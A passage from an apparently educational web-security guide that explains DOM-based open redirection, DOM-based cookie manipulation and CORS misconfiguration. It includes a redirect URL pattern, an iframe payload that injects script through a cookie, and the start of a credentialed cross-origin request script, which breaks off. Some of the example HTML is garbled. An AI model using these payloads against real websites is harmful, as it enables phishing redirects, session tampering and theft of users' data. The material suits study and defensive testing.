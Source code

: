 - DOM-based open redirection

	The website have a similar output than the following one :
	
	```html
		<a href='#' onclick='returnURL' = /url=https?:\\/\\/.+)/.exec(location); if(returnUrl)location.href = returnUrl\[1\];else location.href = "/"'>Back to Blog</a>
	 ```
	 
	 So you can use it by sending for example the following url :
	 
	 `https:/WEBSITE/post?postId=4&url=YOURWEBSITE`
	 
	 
- DOM-based cookie manipulation

	Here is an example for the following scenario :
	1. You are on a website that store last page seen as a cookie
	
	2. Your first action is to inject an iframe where you match an existing page and add some payload after it.
	
	3. When the iframe is load by the victime browser, it will open the src temporarily and set the cookie to the payload

	4. Then the iframe will execute the `onload` function and redirect the victime to an other page of your choice. 

	5. By loading the page the cookie will be stored and execute so is your payload, the victime is not able to see it in anyway (if your victime is Mr/Mrs Michu)
	
	```html
	<iframe src="WEBSITE/sell?productId=1&'><script>alert(document.cookie)</script>" onload="if(!window.x)this.src='WEBSITE';window.x=1;">
	```
	
#### How to prevent it 

- Untrusted data have to be handle carefully  


## Cross-origin resource sharing

Cross-origin resource sharing (CORS) is a browser mechanism which enables controlled access to resources located outside of a given domain.  It can provide an attack vector to cross-domain based attacks, if a website's CORS policy is poorly configured and implemented. 

To check for the Access-Control-Allow-Origin value you can send a request including the following header:
`Origin: WEBSITE`

The presence of Access-Control-Allow-Credentials is a good indicator of potential CORS.

#### Some examples

- Basic origin reflection

	On your website you can place a script looking like this one : 
	
	```javascript
	<script>  
	 var req = new XMLHttpRequest();  
	 req.onload = reqListener;  
	 req.open('get','FULL_URL_TO_TARGET',true);  
	 req.withCredentials = true;  
	 req.send();  
